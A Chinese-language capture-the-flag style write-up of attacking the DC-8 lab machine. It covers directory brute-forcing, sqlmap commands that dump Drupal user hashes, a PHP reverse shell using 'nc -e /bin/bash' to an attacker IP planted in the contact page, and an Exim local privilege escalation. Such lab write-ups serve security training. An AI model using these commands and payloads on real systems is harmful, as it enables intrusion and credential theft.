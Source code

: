 ```yaml
---
title: DC_8靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 渗透测试
tags: [渗透测试, DC]   # 可以是数组
top: false
---
```


# DC_8靶机渗透测试

## 信息收集

- 首先先扫描靶机位置和开放的端口
- ip： 192.168.1.5 port：22，80
- CMS：Drupal

![image-20210705023132828](http://cdn.mxrblog.cn/image-20210705023132828.png)

- 爆破目录,发现用户登陆界面

````
dirb http://192.168.1.5
````

![image-20210705101230636](http://cdn.mxrblog.cn/image-20210705101230636.png)

- 访问靶机80端口服务

![image-20210705025722800](http://cdn.mxrblog.cn/image-20210705025722800.png)

- 查看用户登录界面

![image-20210705101351710](http://cdn.mxrblog.cn/image-20210705101351710.png)

- 在用户登陆页面尝试一番后发现无果，然后发现点击侧边栏，在url中出现了nid=1的字段，直觉告诉我有sql注入漏洞（不要问我直觉为什么这么准，网友的直觉都是那么准）

![image-20210705101940951](http://cdn.mxrblog.cn/image-20210705101940951.png)

- 使用sqlmap进行自动化注入看看, 发现数据库d7db

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent --dbs -dbms=mysql
```

![image-20210705103148642](http://cdn.mxrblog.cn/image-20210705103148642.png)

- 查看表

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent -D d7db -tables
```

![image-20210705103813487](http://cdn.mxrblog.cn/image-20210705103813487.png)

- 查看列

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent -D d7db -T users -columns
```

![image-20210705104239406](http://cdn.mxrblog.cn/image-20210705104239406.png)

- 查看密码和姓名（pass name）

```
sqlmap -u "http://192.168.1.5/?nid=1" --risk=3 --level=5  --random-agent -D d7db -T users -C name,pass,uid --dump
```

![image-20210705104531950](http://cdn.mxrblog.cn/image-20210705104531950.png)

- 发现用户名和密码的哈希值，有用户名字john，我们想到了密码破解工具john

```
admin:$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z 
john:$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

- 只得到了john的密码

![image-20210705105845856](http://cdn.mxrblog.cn/image-20210705105845856.png)

- ssh尝试登陆发现无果

![image-20210705110043912](http://cdn.mxrblog.cn/image-20210705110043912.png)

- 进入网站后台， 发现contact us页面可以被修改

![image-20210705110705512](http://cdn.mxrblog.cn/image-20210705110705512.png)

- 在该页面中插入php反弹shell

```
<?php system('nc -e /bin/bash 192.168.1.8 4444')?>
```

![image-20210705111406828](http://cdn.mxrblog.cn/image-20210705111406828.png)

- 攻击机器上监听4444号端口，然后进入contact us页面提交数据进行刷新

![image-20210705111957708](http://cdn.mxrblog.cn/image-20210705111957708.png)

![image-20210705112012648](http://cdn.mxrblog.cn/image-20210705112012648.png)

- 获得交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 提权

使用命令查看是否有suid的提权的命令

> find / -user root -perm -4000 -print 2>/dev/null

![image-20210705112704121](http://cdn.mxrblog.cn/image-20210705112704121.png)

- 查看exim4版本，发现是4.89

![image-20210705113040929](http://cdn.mxrblog.cn/image-20210705113040929.png)

- 使用searchsploit exim对其进行漏洞检索

![image-20210705120455962](http://cdn.mxrblog.cn/image-20210705120455962.png)

- 使用漏洞文件Exim 4.87 - 4.91 - Local Privilege Escalation对靶机进行提权

![image-20210705120717156](http://cdn.mxrblog.cn/image-20210705120717156.png)

- 将文件传到靶机上

![image-20210705121915838](http://cdn.mxrblog.cn/image-20210705121915838.png)

![image-20210705121929986](http://cdn.mxrblog.cn/image-20210705121929986.png)

- 失败了

  原因是：shell.sh文件的格式为dos格式。linux只能执行格式为unix格式的脚本。

  使用set ff=unix : 告诉 vim 编辑器，使用unix换行符，不然会无法执行脚本。

  所以修改一下攻击机目录下的shell脚本，在脚本最后加上 :set ff=unix（命令行模式添加）

  然后在靶机中重新下载脚本，赋予权限，执行脚本

![image-20210705123615440](http://cdn.mxrblog.cn/image-20210705123615440.png)

- 发现还不是root权限，再看一下漏洞文件

![image-20210705123828233](http://cdn.mxrblog.cn/image-20210705123828233.png)

- 用法说明中提到了我们刚才使用的是默认配置，我们应该切换成nc载荷

![image-20210705124342006](http://cdn.mxrblog.cn/image-20210705124342006.png)

![image-20210705124352704](http://cdn.mxrblog.cn/image-20210705124352704.png)

